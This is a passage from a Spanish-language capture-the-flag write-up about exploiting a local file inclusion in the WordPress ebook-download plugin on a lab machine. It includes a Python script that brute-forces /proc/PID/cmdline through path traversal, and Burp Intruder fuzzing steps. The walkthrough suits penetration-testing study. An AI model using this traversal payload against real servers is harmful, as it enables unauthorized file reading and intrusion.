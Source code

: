 Aprovechando el LFI intento acceder a la clase *id_rsa* para poder conectarme por ssh pero no obtengo nada.

También pruebo a acceder a otros recursos críticos como logs de acceso para ver si la máquina es vulnerable a *log poisoning* pero también sin éxito.

Web con listas de directorios interesantes a los que acceder explotando LFI: [Local File Inclusion. Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)

Tras comprobar que puedo acceder al directorio [/proc](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html) y después de investigar durante un tiempo descubro que es posible listar con que comando un usuario ha ejecutado una acción en el sistema.

Dichos comandos se guardan en el directorio **/proc/[PID]/cmdline** donde PID es el PID del proceso.

Sabiendo esto podemos programar un script en python que ejecute un ataque de fuerza bruta aprovechando el LFI:

```python
import requests

for i in range(800,1000):
    url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/" + str(i) + "/cmdline"
    r = requests.get(url)
    print(r.content)
```

El script se podría mejorar filtrando las respuestas que tengan más de un determinado número de bytes para no hacer print de las respuestas que no nos devuelvan nada útil.

Otra forma de realizar esto sería mediante la opción **sniper de burpsuite** de la siguiente forma:

1- Interceptamos la petición a la web con **foxyproxy**.

2- Mandamos la petición al intruder con *ctrl + i*.

![burp2](https://user-images.githubusercontent.com/55555187/154809058-6b9a0938-009e-41ba-9747-f55d3bc610b4.PNG)

3- Marcamos la posición donde queremos realizar el fuzzing.

![burp3](https://user-images.githubusercontent.com/55555187/154809055-cee7f490-7d54-4c49-9cd4-5cccac3d38a8.PNG)

4- Indicamos el tipo de payload con el que queremos fuzzear, en este caso una lista de números.

![burp4](https://user-images.githubusercontent.com/55555187/154809054-eb2fef2c-eb5a-47e9-87d1-3d93c28a39d0.PNG)

5- Nos fijamos en las respuestas que tengan mayor tamaño. 

![burp2](https://user-images.githubusercontent.com/55555187/154809053-474e2c13-c9df-4799-a01b-8bd9fa1fdabd.PNG)

Mediante mi script obtengo lo siguiente:

<img title="" src="https://user-images.githubusercontent.com/55555187/154809163-e9941c84-4e88-4742-b05e-ed7d17b5de58.PNG" alt="exploit6" width="669">
